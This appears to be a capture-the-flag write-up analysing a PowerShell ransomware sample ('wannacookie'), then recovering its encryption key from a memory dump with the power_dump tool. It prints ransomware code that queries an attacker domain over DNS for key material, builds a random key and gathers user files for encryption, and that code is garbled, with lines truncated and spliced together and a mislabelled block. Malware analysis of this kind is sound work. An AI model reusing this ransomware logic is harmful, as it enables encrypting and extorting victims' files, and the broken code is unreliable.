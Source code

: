 1. The non-minified version of the malware reads as follows:

```
 if ($null -ne ((Resolve-DnsName -Name $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetf    $Byte_key = ([System.Text.Encoding]::Unicode.GetBytes($(([char[]]([char]01..[char]255) + ([char[]]([char]01..[char]255)) + 0..9 | sort {Get-Random})[0..15] -jo    [array]$future_cookies = $(Get-ChildItem *.elfdb -Exclude *.wannacookie -Path $($($env:userprofile+'\Desktop'),$($env:userprofile+'\Documents'),$($env:userprof                    [array]$allcookies = $(Get-ChildItem -Path $($env:userprofile) -Recurse  -Filter *.wannacookie | where { ! $_.PSIsContainer } | Foreach-Object wannacookiestener.Stop()r.Stop()rite($buffer, 0, $buffer.length)etfanu.com -Name ("$cookie_id.72616e736f6d697370616964.erohetfanu.com".trim()) -Type TXT).Strings

```

2. encryption key is generated with the following code:

```javascript
        $b_k = ([System.Text.Encoding]::Unicode.GetBytes(
            $(
                ([char[]]([char]01..[char]255) + ([char[]]([char]01..[char]255)) + 0..9 | sort {Get-Random})[0..15] -join ''
             )
        )  | ? {$_ -ne 0x00});






```


The key will contain 16 random bytes from a set.

2. Use [Power_dump](git clone https://github.com/chrisjd20/power_dump.git) to dump the key:

```bash
git clone https://github.com/chrisjd20/power_dump.git
cd power_dump
python power_dump.py

# Enter 1 to load a file
# Enter ld (path to your file), so for me is ld /Users/nicolas.andrade/Downloads/forensic_artifacts/powershell.exe_181109_104716.dmp
# Enter b to go to the main menu
# Enter 2 to process the memory dump.

```



